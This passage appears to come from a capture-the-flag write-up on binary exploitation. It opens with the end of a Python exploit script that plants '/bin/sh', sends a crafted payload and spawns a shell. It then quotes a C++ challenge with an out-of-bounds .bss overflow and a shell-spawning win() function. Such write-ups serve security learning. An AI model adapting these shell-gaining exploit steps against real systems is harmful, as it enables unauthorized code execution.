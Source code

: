 ```py

sl(b"1")
print(ru(b"Index: "))
sl(str(0).encode())
print(ru(b"Message: "))
sl(b"/bin/sh\x00")


print(ru(b"> "))
sl(b"1")
print(ru(b"Index: "))
sl(str(idx).encode())
print(ru(b"Message: "))
sl(payload)

sl(b"3")


shell()

```

## Takahashi
<secondary-label ref="user"/>
<secondary-label ref="rce"/>
<secondary-label ref="aarw"/>

Who is Takahashi?
This challenge appears to be based on an Atcoder solver.

```CPP
int Q;
int QueryType[100009], x[100009];
priority_queue<int, vector<int>, greater<int>> T;
int main() {
	cin >> Q;
	for (int i = 1; i <= Q; i++) {
		cin >> QueryType[i];
		if (QueryType[i] == 1) cin >> x[i];
	}
	for (int i = 1; i <= Q; i++) {
		if (QueryType[i] == 1) T.push(x[i]);
		if (QueryType[i] == 2) cout << T.top() << endl;
		if (QueryType[i] == 3) T.pop();
	}
	return 0;
}
void win() { std::system("/bin/sh"); } // Gift :)
```

There's an obvious out-of-bounds (oob) that causes overflow in the `.bss` region. Additionally, the int vector array is also declared globally and exists in the `.bss` area.
